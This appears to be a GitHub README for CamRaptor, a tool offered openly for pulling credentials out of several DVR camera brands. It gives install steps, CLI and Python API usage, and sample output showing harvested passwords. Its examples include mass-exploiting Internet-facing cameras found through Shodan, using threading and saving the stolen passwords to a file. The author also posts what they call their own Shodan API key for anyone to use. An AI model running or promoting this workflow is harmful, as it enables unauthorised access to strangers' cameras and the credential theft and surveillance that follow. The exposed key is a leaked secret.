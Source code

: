 # CamRaptor

CamRaptor is a tool that exploits several vulnerabilities in popular DVR cameras to obtain device credentials.

## Features

* Exploits vulnerabilities in most popular camera models such as `Novo`, `CeNova` and `QSee`.
* Optimized to exploit multiple cameras at one time from list with threading enabled.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/CamRaptor
```

## Basic usage

To use CamRaptor just type `camraptor` in your terminal.

```
usage: camraptor [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--api API]

CamRaptor is a tool that exploits several vulnerabilities in popular DVR
cameras to obtain device credentials.

optional arguments:
  -h, --help            show this help message and exit
  -t, --threads         Use threads for fastest work.
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --api API             Shodan API key for exploiting devices over Internet.
```

### Examples

Let's hack my camera just for fun.

```shell
camraptor -a 192.168.99.100
```

**output:**

```shell
[*] (192.168.99.100) - connecting to device...
[*] (192.168.99.100) - accessing device rom...
[*] (192.168.99.100) - extracting camera credentials...
[i] (192.168.99.100) - admin:mamahacker123
```

Let's try to use Shodan search engine to exploit cameras over Internet and save all obtained passwords to `passwords.txt`, we will use it with `-t` for fast exploitation.

```shell
camover -t --api PSKINdQe1GyxGgecYz2191H2JoS9qvgD -o passwords.txt
```

**NOTE:** Given Shodan API key (`PSKINdQe1GyxGgecYz2191H2JoS9qvgD`) is my PRO API key, you can use this key or your own, be free to use all our resources for free :)

**output:**

```shell
[*] Authorizing Shodan by given API key...
[+] Authorization successfully completed!
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to camera...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to camera...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting camera credentials...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting camera credentials...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting camera credentials...
[i] Thread #2 completed.
```

Let's try to use opened database of hosts with `-t` for fast exploitation.

```shell
camraptor -t -i cameras.txt -o passwords.txt
```

**NOTE:** It will exploit all cameras in `cameras.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

**output:**

```shell
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to camera...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to camera...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting camera credentials...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting camera credentials...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting camera credentials...
[i] Thread #2 completed.
```

## CamRaptor API

CamRaptor also has their own Python API that can be invoked by importing CamRaptor to your code:

```python
from camraptor import CamRaptor
```

### Basic functions

There are all CamRaptor basic functions that can be used to exploit specified device.

* `connect(host)` - Connect specified defice by network address.
* `exploit(device)` - Exploit connected device.

### Examples

```python
from camraptor import CamRaptor

camraptor = CamRaptor()

camera = camraptor.connect('192.168.99.100')
print(camraptor.exploit(camera))
```

**output:**

```shell
'mamahacker123'
```

